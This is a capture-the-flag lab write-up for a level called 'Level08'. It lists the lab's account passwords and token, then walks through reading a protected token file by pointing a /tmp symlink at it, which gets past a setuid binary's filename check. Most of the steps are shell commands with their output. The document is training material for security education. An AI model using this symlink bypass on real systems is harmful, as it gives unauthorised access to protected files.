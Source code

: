 # Level08 - Flag08

## Local script usage

```shell
Usage: ./main.sh
```

## Passwords and token

|         |                             |
| ------- | --------------------------- |
| level08 | `fiumuikeil55xe9cu4dood66h` |
| flag08  | `quif5eloekouj29ke0vouxean` |
| token   | `25749xKZ8L7DkSCwJkT9dyv6f` |

## Steps to resolve on VM

1. Connect to `level08` user and notice there is an executable and a token file owned by `flag08` user

```bash
su level08
# Enter the token

ls -l
> -rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
> -rw-------  1 flag08 flag08    26 Mar  5  2016 token
```

2. Check the files

```bash
./level08
> ./level08 [file to read]

./level08 token
> You may not access 'token'

echo "test" > /tmp/test
./level08 /tmp/test
> test

echo "test" > /tmp/token
./level08 /tmp/token
> You may not access '/tmp/token'

# We can see it doesn't let us acces any file that is named "token"

# We can't neither copy it or rename it because of access denial
cp token test
> cp: cannot open 'token' for reading: Permission denied

# Let's try symbolic link then
```

3. Exploit with symlink

```bash
ln -s ~/token /tmp/link

./level08 /tmp/link
> quif5eloekouj29ke0vouxean

su flag08
# Enter password
> Don t forget to launch getflag !

getflag
> Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```

---

## Sources

### SHELL

- [Symlink](https://kb.iu.edu/d/abbe)